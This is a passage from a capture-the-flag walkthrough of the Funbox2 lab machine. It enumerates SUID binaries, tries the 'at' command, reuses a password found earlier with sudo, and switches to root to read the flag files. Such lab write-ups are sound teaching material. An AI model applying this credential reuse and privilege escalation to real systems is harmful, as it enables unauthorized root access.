 /usr/bin/chfn

/usr/bin/newgrp

/usr/bin/gpasswd

/usr/bin/traceroute6.iputils

/usr/bin/pkexec

/usr/bin/newgidmap

/usr/bin/at

tom@funbox2:~$ 

 This rabbithole looks like at can be use for command escalation

tom@funbox2:~$ man at

tom@funbox2:~$ at ls /root 

syntax error. Last token seen: l

Garbled time

tom@funbox2:~$ 

Something is wrong with the time

Will try the password from earlier xx11yy22!

tom@funbox2:~$ sudo -l

[sudo] password for tom: 

Matching Defaults entries for tom on funbox2:

    env_reset, mail_badpass,

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  

User tom may run the following commands on funbox2:

    (ALL : ALL) ALL

Ok so go for sudo su (switch user)

tom@funbox2:~$ whoami

tom

tom@funbox2:~$ sudo su

root@funbox2:/home/tom# cd

root@funbox2:~# ls

flag.txt  proof.txt

root@funbox2:~# cat *

Your flag is in another file...

87d95cc8991671471b2f4ff3d93c37b2

root@funbox2:~# whoami

root

root@funbox2:~# 

And Boot2Root